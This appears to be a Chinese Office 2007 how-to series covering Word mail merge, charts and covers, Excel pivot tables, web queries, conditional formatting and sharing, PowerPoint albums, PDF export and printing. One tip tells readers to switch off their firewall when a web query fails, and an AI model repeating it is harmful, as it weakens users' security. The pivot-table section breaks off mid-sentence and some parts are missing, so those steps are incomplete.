批量制作邀请函时，单击“邮件”菜单，在弹出的工具面板中选择“开始邮件合并”命令，然后从弹出命令列表中选择“邮件合并分步向导”命令，即可在右侧弹出一个“邮件合并”任务窗格。通过这个任务窗格的6步操作，就可以完成邮件合并工作了，具体操作如下：

1. 选中此“邮件合并”任务窗格“选择文档类型”中下面的“信函”选项，单击下面的“下一步：正在启动文档”选项；在随之弹出的第2步任务窗格中，选中“选择开始文档”下面的“使用当前文档”选项，然后单击“下一步：选取收件人”选项。
2. 在新弹出的第3步任务窗格中，要求选择收件人来源，由于这次是从 Outlook 联系人列表中获取，因此选中“从 Outlook 联系人中选择”选项，然后单击“选择联系人文件夹”选项，在弹出的“选择联系人”对话框中，单击“确定”按钮。在打开 Outlook 联系人列表框中，根据此次公司会议的安排，选择相应的被邀请人，选择时，只要选中此对话框中相应联系人“姓”之前的方框即可，然后单击“确定”按钮。返回到任务窗格后，并单击底部的“下一步：撰写信函”选项。
3. 在随之弹出的第4步撰写信函任务窗格中，需要将被邀请人的信息填入模板中，这也是最为重要的步骤，其中已经预置了地址块、问候语、邮政编码等域。但是因为需要在此模板中添加被邀请单位名称等内容，因此将插入点定位于模板中需插入这些信息的位置，一般是信函抬头，然后单击此任务窗格中的“其他项目”选项，在弹出的“插入合并域”对话框中，依次选中“公司”、“姓”、“职务”等，单击“插入”按钮即可。编辑完毕，单击底部的“下一步：预览信函”按钮。
4. 在新弹出的第5步预览信函任务窗格中，通过单击任务窗格中“收件人”两侧的选择按钮，就可以在右侧的编辑窗口中看到合并后的邀请函内容了，就会发现在每份邀请函中，相应的个人信息会自动添加到邀请函的正确位置，而且其单位名称、被邀请人姓名以及职务等内容会自动准确匹配，如“青岛市新号科技有限公司 李栋 经理”、“济南市新世纪工贸公司 张江 主任”等等，检查无误后，单击底部的“下一步：完成合并”按钮。

【小提示】如果需要合并的被邀请人很多，逐个查看合并后的邀请函很麻烦，这时候可以单击任务窗格或者顶部工具栏中的“查找收件人”按钮，在弹出的对话框输入被邀请人姓、名、职务等任意信息，然后单击“查找下一个”按钮即可。

5. 在最后弹出的第6步任务窗格中，单击“打印”按钮，即可弹出“合并到打印机”对话框，在此可以设定打印全部合并后的会议邀请函，或者只打印其中的部分邀请函，比如第50～100被邀请人，只需要选中对话框“打印记录”下面的“从”选项，在其后面输入需打印的被邀请人起止序号，如50～100，单击“确定”按钮，即可弹出“打印”对话框，然后单击“确定”按钮，就会将需要的邀请函快速打印出来。

利用邮件合并工具，可以非常方便地将大量信息自动输入到相应的文档中，不仅仅是在打印邀请函、传真等文件，在打印其他一些批量文件如贺卡、标签等都可以利用 Word 邮件合并工具来快速完成，从而节省大量的宝贵精力。

### 实例讲解之二：
利用 Word 制作漂亮图表

在日常工作中，很多朋友可能需要写一些工作总结、市场分析报告之类的文件，这时候往往就需要在文档中添加适当的数据图表来说明一些具体数据，漂亮的图表不仅仅能够使文档更具有说服力，而且会使文档具有可读性，提高整个文档的编辑水平。但是以前使用 Word 虽然也能够编辑一些简单的图表，但是外观太简陋，不能够满足很多朋友的工作需求，现在 Word 2007 中专门集成了图表工具，通过这个工具不仅可以轻松制作出美轮美奂的精致图表来，而且还可以非常方便地调用 Excel 中的源数据，从而让图表编辑工作更轻松准确。下面就以在一份某公司“关于2007年9月份各个分店销售业绩总结报告”中，如何添加一个销售业绩图表为例来介绍实现过程。

##### 一、选择图表类型以及编辑源数据

由于这次需要在“关于2007年9月份各个分店销售业绩总结报告”文档中，需要插入9月份的销售图表，因此必须选择一种图表类型以及确定销售业绩源数据，而源数据往往存储在 Excel 工作表中，因此必须首先将存储源数据的工作表打开，如“2007年9月份各个分店销售业绩.xlsx”文件（图2-1），然后进行如下操作：

| 分店 | 啤酒 | 饮料 | 糖果 | 茶 | 其他 |
| :--- | :---: | :---: | :---: | :---: | :---: |
| 大林店 | 93 | 165 | 78 | 48 | 37 |
| 金井店 | 129 | 466 | 249 | 35 | 179 |
| 和平路店 | 6 | 167 | 382 | 114 | 258 |
| 新阳路店 | 260 | 789 | 82 | 205 | 54 |
| 解放路店 | 73 | 358 | 390 | 113 | 205 |

图2-1
1. 启动 Word 2007，在其中新建一篇名为“关于2007年9月份的各个分店销售业绩总结报告”的文档，将插入点定位于需要插入图表的位置，单击工具栏上的“插入”按钮，在下面弹出的浮动面板中选择“图表”按钮，此时会显示一个“创建图表”窗口，从其中选择需要的图表类型“柱形图”类别中的“堆积棱锥图”选项，单击“确定”按钮，就会在文档中插入一个堆积棱锥图草稿，同时会弹出一个名“Microsoft Office Word 中的图表” Excel 编辑窗口，用来编辑图表中的源数据（图2-2）。

【小提示】当在 Word 2007 中创建一个图表后，就会自动在顶端的菜单栏显示一个“图表工具”菜单以及其下面的“设计”、“布局”、“格式”菜单，通过这个菜单中的一系列工具按钮，可以完成更改图表类型、选择数据、编辑数据以及修改图表布局/样式等操作。以后需要启动这个菜单时，只要单击相应的图表即可。

2. 由于前面这次图表中的源数据文件“2007年9月份各个分店销售业绩.xlsx”已经打开，因此不需要在弹出的图表源数据编辑窗口输入，而直接从上面打开的文件中直接选取就可以了。选择源数据时，单击插入的堆积棱锥图，然后单击 Word 2007 工具栏上的“选择数据”工具按钮，在弹出的“选择数据源”对话框中，单击其中“图表数据区域”右侧的选择按钮，从“2007年9月份各个分店销售业绩.xlsx”表中选择相应的单元格区域，如：Sheet1!$D$3:$I$12，然后单击“确定”按钮，这样就将此表中的销售数据添加到文档中的图表中，从而完成图表的源数据编辑工作。

【小提示】默认情况下，Excel 表中源数据区域的第一列数据会显示为图表的水平（分类）轴（即 X 轴此例为分店名），而第一行数据则会显示为图表的图例项（即 Y 轴，此例为商品名），如果需要查看不同角度的图表，比如以商品作为水平（分类）轴，可以单击“选择数据源”对话框中的“切换行/列”按钮，然后单击“确定”按钮即可。

| | A | B | C | D | E | F |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 1 | 系列1 | 系列2 | 系列3 | | | |
| 2 | 4.3 | 2.4 | 2 | | | |
| 3 | 2.5 | 4.4 | 2 | | | |
| 4 | 3.5 | 1.8 | 3 | | | |
| 5 | 4.5 | 2.8 | 5 | | | |

图2-2

##### 二、修饰图表，让图表更多姿多彩

通过前面的操作所制作的图表仍然比较简单，比如没有标题、没有显示明细数据、色彩单调等，这些都可以通过以下操作来完成。
为了让图表显示标题以及明细数据，可以更改其布局方式，单击插入的图表，然后单击“设计”菜单中的“图表布局”列表框，从其中弹出的一系列布局样式中选择一种自己需要的布局，如“布局2”，此时图表中会增加“标题”框，在其中输入图表的标题文字，同时图表的每个系列都会显示数据标签，从而能够看到具体的销售明细数据了。
而为了进一步美化图表，最方便的方法就是为其更换一种形状样式，单击“格式”菜单，然后单击其中“形状样式”列表框中的某种比较精致的样式，就可以让图表色彩丰富、样式美观了（图2-3）。

<小提示>
如果需要经常在文档中插入图表，可以把自己设计好的图表保存为模板，这样在以后操作中就不需重复操作了，将文档的图表保存为模板时，单击“设计”菜单工具栏中的“另存为模板”按钮，在弹出的对话框中输入模板名，如“我的模板”，将其保存为一个 crtx 格式文件。以后使用此模板时，单击“更改图表类型”，在弹出的对话框中，单击左侧图表类型列表框顶端的“模板”选项，然后从右侧“我的模板”列表框中选择自己保存的图表模板就可以了。

### 实例讲解之三：

### 利用 Word 设计专业封面

对于一些专业文档以及内容比较多的文件来说，设计一个封面是非常必要的，但是如何设计呢？如果你对于图形设计操作不很熟悉的话，往往需要浪费大量的精力也不一定如愿，而现在利用 Word 2007 内置的封面工具就可以让菜鸟也设计出非常专业的封面，而且 Word 2007 的这个封面设计工具充分考虑了实际情况，比如如果在文档添加，封面并不显示页眉页脚内容，不必像以前还需要单独删除封面上这些内容。下面我们就看看如何利用封面工具来设计一份“2008年销售计划书”商业资料的精美专业封面的！

##### 一、插入封面

启动 Word 2007，打开“2008年销售计划书.docx”文件，将插入点定位于需要插入封面的页面，一般为第一页，单击“插入”菜单，从弹出的工具面板中，单击“封面”选项，然后从弹出的封面模板中选择自己喜欢的一种样式，使用鼠标双击，如“运动型”，即可在文档的第一页插入一个很标准的封面模板了（图3-1）。

##### 二、编辑封面内容

在 Word 2007 中微软引入了构建基块概念，通过用户就可以将预设格式的内容快速添加到文档中，而封面设计就是很典型的构建基块。刚才在文档中插入的“运动型”封面模板，主要内容除了包括文档标题、文档年份、作者、公司名称以及编辑日期等控件，还在封面中插入一副示例图片。

编辑封面时，对于文档标题，只要单击其中的标题控件将自己的封面内容予以替换就可以了。作者、公司名称等内容会自动从 Word 的“用户信息”中读取，如果需要修改，单击这些控件，然后输入需要的内容即可。对于年份、编辑日期等，此封面模板已经内置了时间选取控件，单击这些控件，从弹出的时间选取控件中，选择正确的日期即可，如2008-1-1，而当需要用自己公司的图片替换封面模板中的图片时，可以使用鼠标右击模板中的图片，在弹出的快捷菜单中选择“更改图片”命令，然后在弹出的“插入图片”对话框中，选择自己公司的图片即可。

<小提示>
为了进一步美化插入的图片，可以使用 Word 2007 的图片样式来完成，而且很方便，双击插入的公司图片，从弹出的“图片工具”菜单中的“格式”里面的“图片样式”列表框中，选择一种自己中意的图片修饰样式，如“柔化边缘矩形”，就会发现封面中的图片绚丽夺目了！

##### 三、添加其他封面控件以及设置恰当的文档页眉页脚

默认情况下，还需要在封面模板中添加其他一些内容时，如关键词、摘要时，可以通过增加其他文档控件的方法来解决，比如要在封面的开头编辑关键词，先将插入点定位于封面中关键词的位置，单击“插入”菜单，然后选择其中的“文档部件”按钮，选择“文档属性”命令，在弹出的选项列表中选择“关键词”选项，这样就可以在封面中插入一个关键词控件，然后在其中输入文档的关键词即可，如“销售体系 市场改革 发现客户”。

而当需要设置文档的页眉或者页脚，但是往往不需要在封面显示这些内容时，比如添加页眉，只需要将插入点定位于第二页，单击“插入”菜单，从弹出的“页眉和页脚”工具列表中选择“页眉”选项，然后从弹出的样式列表框中选择一种页眉样式即可。
通过以上的编辑工作，一份非常专业的封面就设计出来了。实际上不仅仅 Word 2007 内置了封面工具，Microsoft Office 网站上也有很不错的封面模板样式，只要你登录 http://office.microsoft.com/zh-cn/templates/CT012316112052.aspx?ofcresset=1，从中你会发现不少好东东呢！

### 实例讲解之四：

### 利用 Excel 数据透视表多角度分析数据

在日常数据处理工作中，很多时候都需要对原始数据进行筛选、汇总，一般情况下大家往往习惯于使用 Excel 的筛选、分类汇总工具来完成此类工作，但是使用这些工具进行数据分析汇总时，必须根据分析目的进行多次操作，而如果遇到大量繁杂的数据就力不从心了。针对这种问题，使用 Excel 的数据透视表工具，就可以从多个角度，对数据进行高效地分析汇总以及筛选，而且能够非常方便地将数据透视表转换为专业的数据透视图来。下面就以使用 Excel 2007 中的数据透视表工具，对某单位“2007年9月份各分店销售统计明细表”进行分析汇总，快速计算出不同分店、不同商品销售数量的汇总分析数据。

##### 一、利用源数据表创建数据透视表

需要进行数据分析时，启动 Excel 2007，打开“2007年9月份各分店销售统计明细表”，单击菜单栏上的“插入”菜单，从弹出的浮动工具面板中，单击“数据透视表”按钮，从弹出的菜单中选择“数据透视表”命令（图4-1）。
1. 在随之弹出的“创建数据透视表”对话框中，要求选择分析数据来源位置以及存放新创建数据透视表的位置。由于当前是对已经打开的现有工作## 二、通过建数据透视表多角度分析数据

在刚才创建的数据透视表中，可以非常方便地从多个角度、按照多种条件分析数据，比如要分析城南分店以及街口分店各种商品的销售量，只需要单击数据透视表中行标签右侧的下拉按钮，在弹出的分店列表框中，只选中城南分店、街口分店，单击“确定”按钮即可。同样道理可以从“列标签”中选择任意的商品种类进行分析汇总，所需要的数据在瞬间就可以得到。

另外在默认汇总方式下，Excel采用求和计算方式，如果需要分析各个分店不同商品的销售量在总销售量中所占的百分比，可以使用鼠标右击数据透视表的数据区域，在快捷菜单中选择“数据汇总依据”命令，在弹出的“值字段设置”对话框中，单击“值显示方式”选项，然后从下面的值显示方式列表框中选择“占总和的百分比”选项，单击“确定”按钮即可。这样在数据透视表显示的汇总数据就是各个分店商品在整个销售量中所占的比例了。

> 小提示：在数据透视表中显示的往往都是汇总后的数据，如果需要查看某些数据是如何计算出来的，可以查阅其源数据，操作也很简单，右击数据透视表中的某个计算结果，从弹出的快捷菜单中选择“显示详细信息”命令，即可新弹出一个工作表，其中就显示此信息的源数据了。

## 三、制作通俗易懂的交互数据透视图

实际上数据透视表不仅仅可以帮助我们进行方便地分析数据，而且可以在其基础上进一步制作具有交互功能的数据透视图，这样就能够将枯燥的数字变为形象的图表了，特别是利用Excel 2007强大的图表编辑功能，更能够让数据具有可读性！

创建数据透视图时，单击数据透视表的任意区域，单击“插入”菜单，从弹出的“图表”工具面板中选择一种图表形状，比如“柱形图”中的“簇状圆柱图”选项（图4-3），即可在数据透视表窗口中，新增加一个数据透视图，同时在右侧会显示一个“数据透视图筛选窗格”对话框。

通过这个筛选选项，可以根据不同的字段筛选不同的数据，同时会在数据透视图中直接显示出来，比如只需要在数据透视图中只显示城南分店、街口分店、解放路店等3个店的销售量，可以单击右侧的筛选窗格的“轴字段（分类）”右侧的选择按钮，然后从下拉分店列表中清除其他分店选项，而只选中上面的3个分店即可。

#### 实例讲解之五：利用Excel快速分析网络数据

在当前信息化高度发展的社会中，网络已经成为工作生活中必不可缺的重要组成部分，特别是一些朋友需要从网络上某些特定网站获取一些行业信息，并且需要进行数据分析，如期货、股票、外汇、商品行情等，这些信息内容往往是实时的，是随时变化的。如果每次都要频繁地打开网页，然后复制到相关的数据处理工具，如Excel中，是非常繁琐的，这时候大家可以通过使用Excel 2007的Web查询功能来巧妙解决此问题，下面就以从一个外汇网站如何获取分析网络实时数据为例，来介绍Excel 2007的强大Web查询功能。

##### 一、创建Web查询，将网页数据导入Excel

需要利用Web查询工具，将网页中的数据导入到Excel 2007中时，具体操作如下：

1.  启动Excel 2007，单击“数据”菜单，从弹出的浮动工具面板中，单击“获取外部数据”按钮，然后从弹出的命令列表中，选择“自网站”选项，即可弹出“新建Web查询”编辑窗口。在弹出的“新建Web查询”对话框中的“地址栏”输入要获得外汇行情数据的网址，比如：http://money.163.com/forex/，然后单击“转到”按钮，即可在此编辑窗口打开相关的数据网页了（图5-1）。
2.  在随之弹出的“导入数据”对话框中，选择导入数据的存放位置，如“现有工作表”的A2单元格，最后单击其中的“确定”按钮，即可完成所需要网页数据的导入工作（图5-2）。

> **小提示**：如果在“新建Web查询”编辑窗口输入网址，而无法打开网页内容，除检查你的网络是否正常外，还必须查看是否安装的防火墙软件设置了禁止Excel访问网络，可以直接临时关闭防火墙软件。

> **小提示**：除了通过以上的操作方式创建Web查询外，还可以将网页中的数据直接复制到Excel中，然后右击粘贴过来的数据，从右键快捷菜单中选择“创建可刷新的Web查询”命令。

> **小提示**：为以后导入网页数据提供方便，可以将刚才所作的Web查询选项设置单独保存为一个iqy格式的文件，如fc_s.iqy，只要单击“保存查询”按钮，然后选择保存位置，比如桌面，需要时只要直接打开这个文件，即可自动导入需要的网页数据了。

##### 二、依需而定，对Web查询进行个性设置

当创建Web查询后，就可以随时地通过Excel获取最新的外汇行情，但是导入的数据区域与普通的数据毕竟不同，需要着重注意以下几点：

1.  为了保持Excel中的数据与网页中的源数据一致，必须根据自己的需要，对其刷新方式进行认真设置。在默认设置下，Web查询采用的全部数据刷新方式是后台自动刷新，数据虽然随时更新，但是会浪费不少系统资源，因此可以设置为每隔一段时间自动刷新，比如每隔30分钟。设置时，使用鼠标右击导入数据区域，从快捷菜单中选择“数据区域属性”命令，在弹出的“外部数据区域属性”对话框中，在其中“刷新控件”下面，将“允许后台刷新”复选项取消，然后将其中的“刷新频率”复选项选中，并且在后面的数字框中输入30即可。
    而只需要更新其中的部分数据，可以选中相应的单元格区域，然后右击鼠标，从弹出的快捷菜单中选择“刷新”命令即可。
2.  如果需要对导入的数据区域进行编辑，比如插入行、列等内容时，可以直接插入，比如1行，此时会弹出一个所插入行采用何种格式的对话框，比如选中“与上面格式相同”命令即可。但是当数据进行刷新后，这些插入的行列以及相应的数据内容都会清除，而自动与网页上的数据内容保持一致，因此建议如果需要将Web查询内容进行编辑，最好是将其复制到其他单元格区域。

从上面关于Web查询实例介绍来看，Web查询作为一种网络分析工具，能够时刻跟踪网页中变化的数据，因此非常适合应用于对一些频繁变化的网络信息的获取以及分析工作，能够给我们的工作生活带来极大的便利。

#### 实例讲解之六：利用PPT制作精美的电子相册

伴随着DC、DV等摄像工具的普及，数码照片已经成为日常生活中非常重要的内容，很多朋友可能将这些照片按照一定的类别、主体等，编辑成为一份时尚的电子相册，虽然现在制作电子相册的专业工具软件也比较多，如会声会影等软件，但是这些软件还需要安装、注册。其实利用幻灯片编辑软件PowerPoint 2007，就可以做出有声有色的电子相册来。

##### 一、启用相册工具，快速创建电子相册

使用PowerPoint编辑电子相册很简单，启动PowerPoint 2007，单击“插入”菜单，从弹出的工具面板中“相册”选项，将会弹出编辑新相册的窗口。

在这个编辑窗口中，可以从本地磁盘中的文件夹或者扫描仪、照相机等外设中导入图片，这里选择从文件夹中导入，单击窗口中“插入图片来自”下面的“文件/磁盘”按钮，在弹出的“插入新图片”对话框中，从本地文件夹中，导入要制作为相册的所有图片。

对于插入的图片，可以根据需要调节其方向、对比度以及亮度等，调节时，只要单击“相册中的图片”中列表框中的某幅图片，然后单击“预览”框下面的相应的工具调节按钮即可。

一份漂亮的电子相册，当然需要相框了，其版式也是非常讲究的，因此要给相册选择版式、相框等，从“相册版式”下面的“图片版式”列表框中选择一种自己喜欢的图片版式，如带标题的“2张图片（带标题）版式”，从“相框形状”列表框中选择一种相框样式：圆角矩形。

此外，为了使整个电子相册看起来更加协调、专业，可以使用一种专业的设计模板，首先单击“设计模板”选项左侧的“浏览”按钮，在弹出的对话框中，从本地的文件夹选择一种适合的主题，如：Apex，然后单击“选择”按钮即可。

这样，创建电子相册的基本工作就完成了，检查无误后，单击“创建”按钮，就可以在PowerPoint中，看到所创建的相册草稿了。

##### 二、对相册进行编辑修饰

刚才所作的仅仅是电子相册的雏形，下面要利用PowerPoint的强大功能，来为相册添加说明文字、音乐、使用特别版式以及设置动画效果等，从而使所创建的电子相册更加精彩。

1.  添加图片标题以及其他文本内容
    一般情况下，在创建相册的时候，在每幅照片的底部或者上部，用图像文件名为相册添加文字标题，如果在创建相册时，选择带标题的版式，还会在每页的幻灯片上添加一个标题文本框。需要修改这些照片以及幻灯片标题时，可以用鼠标单击标题文本框，然后在其中输入说明文字即可，如“我的相册”。
    如果需要增加更多的说明内容，可以单击“插入”菜单，选择“文本框”工具，然后选择文本框的排版方式，即可以在相册中添加一个文本框，然后在其中输入文本内容即可（图6-1）。
2.  添加音乐
    给电子相册添加美妙动听的音乐，可以让相册增色不少，在相册中添加的声音，可以选择电脑中的音乐文件、CD音乐也可以是自己录制的声音，这里选择本地的音乐文件，添加声音的步骤：从右侧的幻灯片列表框中，选择要添加声音的幻灯片，单击“插入”菜单，选择“声音”工具，然后选择“文件中的声音”命令，这样就可以在弹出的“插入声音”对话框中，选择需要的声音文件，单击“确定”按钮，弹出幻灯片放映时音乐播放方式选项，这里一般选择“自动”即可。
3.  给相册照片添加动感效果
    如果相册的图片总是静止不动，欣赏起来就会让人厌倦，针对这种情况，可以利用PowerPoint所具有强大的动画功能，为相册中的一些照片添加动画效果，从而让相册真正“动”起来。PowerPoint中可以添加的动画效果包括进入、强调、退出以及路径等类别，比如要为某张照片添加播放时采用飞入特效。
    选择需要设置动画的照片，单击“动画”菜单，在弹出的动画工具面板中，单击“动画”效果列表框，即可弹出一系列动画内置效果，从中选择一种动画效果，如“飞入”动画效果，可以立刻看到预览效果。

与给相册中的某张图片添加动画效果类似，还可以给相册添加切换效果，以及声音解说等，从而让电子相册更加吸引人。

相册编辑完毕后，将其保存为一个.ppt或者.pptx文件，需要欣赏所制作的电子相册时，只需要打开这个文件，然后单击底部工具栏上的“幻灯片放映”按钮，就可以轻松愉快地观看刚才所制作的精彩电子相册了。

#### 实例讲解之七：轻轻松松将文件转换为PDF电子文档

现在很多公司的技术规范文件、白皮书、研究报告等文档资料都要求使用PDF格式，PDF也就是Portable Document Format的简称，是Adobe公司开发的一种电子文件格式。由于其集成度和安全性可靠性都较高，因此得到广泛应用，也是当前网络上非常流行的一种文件格式。但是以前将文件转换为PDF格式必须依靠Adobe公司的Adobe Acrobat或者其他一些辅助PDF制作软件来完成，而这些软件往往是需要付费的，安装也比较麻烦。

而在Office 2007推出以后，我们不需要依靠任何其他辅助软件，仅仅到微软公司Office的下载网站（http://www.microsoft.com/downloads/details.aspx?FamilyId=4D951911-3E7E-4AE6-B059-A2E79ED87041&displaylang=zh-cn），下载一个名为“2007 Microsoft Office 加载项：Microsoft 另存为 PDF 或 XPS ”的插件。将这个插件下载安装后，就可以在office 2007的Word、Excel、PowerPoint、Access等八种组件中实现转换PDF功能了。

将文档转换为PDF非常简单，比如在PowerPoint 2007中，打开或者新建一篇文档后，比如“公司介绍.ppt”，需要转换时，执行“文件→另存为→PDF或XPS”菜单命令，在弹出的“发布为PDF或XPS”对话框中选择“保存类型”为PDF，输入文件名，单击“发布”按钮，即可快速将文档转换为PDF格式文件。

如果转换后的PDF文件使用在网络上，为了减少文件体积，建议选中发布对话框中的“最小文件大小（联机发布）选项”，而且如果只需要转换为幻灯片中的某些页面，则可以单击“发布为PDF或XPS”对话框中的“选项”按钮，在弹出的对话框中，选中“范围”下面的“幻灯片”选项，选择要转换的幻灯片页面即可，如1~10页。

> 也许大家注意到在“发布为PDF或XPS”对话框中还有一种保存类型为XPS，XPS全称XML Paper Specification，是一种可直接打印的通用电子文档格式，浏览XPS文件必须安装Microsoft .NET Framework 3.0，然后使用IE浏览器进行查阅。

#### 实例讲解之八：挖掘Office打印技巧，实现高效打印

打印是办公的日常工作之一，但是在打印文件的时候，可能会遇到这样或者那样的问题，而且由于平常工作的不注意，也往往造成打印耗材损耗大以及打印机本身使用寿命缩短，其实利用Office的一些打印小诀窍，就可以较为圆满地解决这些问题，从而使你的日常打印工作变得快捷方便起来！下面就以大家最常使用的Word以及Excel组件为例，来看看如何实现高效打印！

##### 一、打印文件草稿，当然使用Word草稿打印模式

当编辑完一些重要文档后，有时候仅仅需要打印一份用来校对，以保证它的准确性。这时候最好用Word里面的一个非常不错的功能，就是草稿打印，使用草稿打印的话，打印机在打印时就会随便一扫而过，大大地降低打印文档的密度，所以打印起来的速度会大大加快，同时也更省墨，因此非常适合一些校对稿以及非正式纯文字文件打印工作，实现文件草稿打印方式，可以通过以下两个步骤完成操作：

1.  启动Word 2007，单击左上角的Office按钮，在弹出的文件菜单命令中，单击“Word选项”按钮，然后从弹出的“Word选项”对话框中选择“高级”选项，接着从右侧的“打印”选项组中选中“使用草稿品质”选项，单击“确定”按钮。
2.  上面仅仅是在Word中进行了设置，还必须在打印机进行进一步设置，才能使用草稿模式。单击左上角的Office按钮，在弹出的文件菜单命令中，选择“打印”命令，在弹出的菜单中选择“打印”选项，然后在弹出的“打印”对话框，选择使用的打印机型号，如Epson Stylus Pro XL-ESC/P 2。
    单击此对话框中的“属性”按钮，在弹出的打印机属性设置对话框中，单击“纸张/质量”选项卡，然后将其中的“质量设置”选项设置为“草图”，最后单击“确定”按钮即可。

##### 二、能减则减，妙用Word减少一页功能

一些文档在需要打印时，可能会发现在最后一页只有寥寥几行甚至几个字，却仍需要占用一整页的空间，这样打印时不但浪费纸张，而且版面也不美观。这时候就可以使用Word减少一页功能，将后面一页的内容自动按比例分摊到前面的页面中，从而达到减少一页的功能。 实现方法是：使用鼠标右击Word2007菜单栏下面功能区最底部的快速访问工具栏，在弹出的快捷菜单中选择“自定义快速访问工具栏”命令，从随之弹出的“Word选项”对话框的“从下列位置选择命令”列表框中，选择“打印预览选项卡”命令。然后在下面的命令列表框中，单击“减少一页”命令，接着单击“添加”按钮，将其添加到右边的“自定义快速访问工具栏”列表框中，单击“确定”按钮。 这样在Word左上角快速访问工具栏中新增了一个“减少一页”工具按钮，当需要缩减一页时，只要单击这个工具按钮即可。

##### 三、妙用页面设置，Excel打印也缩印

与在Word中类似，很多Excel表格在打印时也会出现在最后一页只有少量内容的情况，比如需要打印一份“2007年1～10月份销售统计明细表”，默认设置情况下需要打印3页，而根据需要必须将其缩减为2页，但是在Excel中并没有“减少一页”功能，怎么办呢？其实不用愁，我们可以通过页面设置来解决这个问题。

使用Excel 2007，打开需要打印的工作表文件，选定要打印的单元格区域，单击“页面布局”菜单，从弹出的工具面板中选择“打印区域”命令，在弹出的下拉菜单中选择“设置打印区域”命令。 接着单击“页面布局”菜单下面的“调整合适大小”工具栏右侧的选择按钮，在弹出的“页面设置”对话框中，选中“缩放”下面的“调整为”复选项，然后把后面的页宽设置为1，页高设置为2，单击“确定”按钮，即可将页面自动缩减为两页了，而且Excel会自动调整两页的整体布局，从而让打印出来的工作表更协调。

##### 四、让打印工作表条理更清晰，实现每页都有标题

作为一份标准的Excel工作表，一般都包括标题以及表格首行列名，但是在打印默认情况下，只能够在首页打印标题以及列内容，这样查阅起来就非常麻烦，而在Excel 2007中，就新增了打印标题行的内容，从而让页页都有标题，彻底解决了以前的难题。

需要在每页打印标题行时，单击“页面布局”菜单中下面的“打印标题”工具按钮，在弹出的“页面设置”对话框中，单击“顶端标题行”左侧的选择按钮，选择工作表标题以及列名行所在的单元格区域，如：$1:$3，单击“确定”按钮，即可在打印的每张工作表顶端自动添加上标题行了。

> 如果工作表标题在左端的列区域，则选中“页面设置”对话框中的“左端标题列”复选项，然后通过上面的方法选择标题列就可以了。

### 妙用格式，让Excel表格清晰又亮丽

在处理Excel表格数据的时候，你是否会被繁杂的数据搞得头昏脑胀，特别是数据量较大的情况，这时候你是否希望将这些乱而无序的表格整理一下呢？！以前我们往往需要依靠筛选或者排序工具来完成这些操作，而现在使用Excel 2007就可以通过以下简单操作步骤，就可以让表格清晰又亮丽起来，下面就以“2007年10月份各个分店销售统计明细表”为例讲解，来看看具体实现步骤！

##### 一、应用数据条，不同大小数据显示不同颜色

在这份销售统计明细表中，各个分店的销售数据混杂在一起，无法从直观上显示销售量排序情况，这时候就可以使用Excel 2007的条件格式中的数据条功能了。启动Excel 2007，打开“2007年10月份各个分店销售统计明细表”，选中要分析数据所在的单元格区域，如D3:F66，单击“开始”菜单，在弹出的工具面板中选择“条件格式”按钮，从弹出的下拉菜单中选择“数据条”选项，然后从弹出的数据条格式命令列表中自己喜欢的一种颜色，如“浅蓝色数据条”选项，就会立即发现在选定的单元格区域内，会自动填充一些浅蓝色数据条（图9-1）。

> 在“条件格式”选项中，除了可以添加数据条外，还可通过设置色阶、图标集等方式来区分数据大小，需要注意的是如果在同一单元格中，同时应用多种条件格式样式，后者可能会掩盖前者。

##### 二、依靠条件格式，数据筛选也智能

上面仅仅是按照数据的大小添加了数据条，是对整体数据泛泛而言，如果仅仅需要筛选出某些特定数值，比如超过平均值的销售数据以及按照一定的区间分别显示，怎么办呢？这些工作同样可以采用条件格式中的某些工具来快速完成。

需要直接在表格中筛选出哪些销售量超过平均值时，选定销售数据区域，单击“条件格式”按钮，从弹出的下拉菜单中选择“项目选取规则”选项，然后从弹出的规则命令列表中选择一种筛选方式，如“高于平均值”选项。在弹出的“高于平均值”对话框中，选择一种为高于平均值单元格所设置的特殊格式，如“黄填充色深黄色文本”选项，然后单击“确定”按钮。这样销售统计明细表中所有超过平均销售量的单元格，就会变为以上设定格式了。

而需要在表上按照一定的区间分别显示，如0～100、100～200以及200以上，并以相应的图标予以区别，可以单击“条件格式”按钮，选择“新建规则”命令，在弹出的“新建格式规则”对话框中，从“选择规则类型”列表框中，选中“基于各自值设置所有单元格的格式”选项，然后在“格式样式”表框中选择“图标集”。 从随之弹出的“图标样式”“三个符号（有圆圈）”，并在“根据以下规则显示图标”下面的值框中直接输入分类数据的临界值，比如100、200，最后单击“确定”按钮。这时你就会发现，表格中的数据已经按照不同的区间自动添加了不同的图标加以区分。

##### 三、应用公式，不同行显示不同色

在此明细表中由于数据较多，在处理表格时，很容易让人看得眼花缭乱，搞不好就会错行错列，造成麻烦。对于这个问题可以通过将行或列间隔设置成不同格式来解决。不过这只能够给纯数据单元格设置格式，无法给纯文本内容设置格式，这时候可以通过使用公式解决这个问题。

需要不同行显示不同色时，选中相应的单元格区域，如D3:E47，单击“条件格式”按钮，选择“新建规则”命令，在弹出的“新建格式规则”对话框中，从“选择规则类型”列表框中，选中“使用公式确定要设置格式的单元格”选项，在下面显示的公式编辑框中输入公式：`=MOD(ROW()+1,2)`。

接着单击“格式”按钮，在弹出的“设置单元格格式”对话框中，单击“填充”选项卡，选择一种单元格的填充颜色，如浅蓝色，依次单击“确定”按钮，就会发现明细表中隔行就会被所设置的浅蓝色颜色填充了，整个明细表结构也更清晰了（图9-2）。

> 小提示：如果需要间隔两行填充颜色，只需要将公式修改为`=MOD(ROW(),3)=0`即可，而需要让列间隔添加颜色，只需要将上述公式中的“ROW”改为“COLUMN”即可。

#### 实例讲解之十：利用Excel实现高效协同办公

作为公司的财会统计人员，每到月终都要进行大量的数据处理工作，其中很多工作需要多个部门或者多人汇总。如果采用传统的操作方法，每个人/部门分别制表，再进行汇总，这种工作方法不仅需要经过多个环节，而且在汇总时也需要逐一合并报表，是不是太呆板了！

现在我们通过Excel 2007的共享工作簿工具，就可以通过将共享后的工作簿存储在公司的共享文件夹中，这样就可以实现多人同时编辑工作簿，而且此工作簿的数据内容随着更新。下面就以一份“2007年度各分店销售统计明细表”实现协同办公为例，来介绍共享工作簿的强大功能。

##### 二、通过共享工作簿，实现协同办公

在将工作簿设置为共享后，需要在这份工作簿上操作的工作人员，就可以通过打开存储在共享文件夹上的“2007年度各分店销售统计明细表[共享]”工作簿，进行输入数据、插入行、列以及更改公式等操作，然后进行保存即可。

